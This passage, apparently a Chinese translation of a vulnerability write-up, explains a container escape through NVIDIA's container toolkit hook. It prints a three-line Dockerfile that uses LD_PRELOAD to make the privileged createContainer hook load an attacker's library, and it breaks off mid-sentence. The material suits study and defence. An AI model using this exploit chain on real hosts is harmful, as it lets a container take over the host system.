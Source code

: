 有了控制特权钩子环境的能力，攻击者就有了多种选择。最直接的方法之一是滥用  

```
LD_PRELOAD
```

  
一个众所周知且功能强大的 Linux 环境变量，  

```
LD_PRELOAD
```

  
强制进程加载特定的用户定义共享库（  

```
.so
```

  
文件）。  
  
通过  

```
LD_PRELOAD
```

  
在 Dockerfile 中设置，攻击者可以指示  

```
nvidia-ctk
```

  
钩子加载恶意库。更糟糕的是，  

```
createContainer
```

  
钩子执行时会将其工作目录设置为容器的根文件系统。这意味着攻击者可以通过简单的路径直接从容器镜像加载恶意库，从而完成漏洞利用链。  
## 漏洞利用：一个三行 Docker 文件  
  
该漏洞最令人担忧的一点是其简单性。攻击者只需构建一个包含恶意payload的容器镜像以及以下三行Dockerfile即可。  
## 恶意Dockerfile：  

```
FROM busybox
ENV LD_PRELOAD=/proc/self/cwd/poc.so
ADD poc.so /
```

  
  
当此容器在易受攻击的系统上运行时，  

```
nvidia-ctk createContainer
```
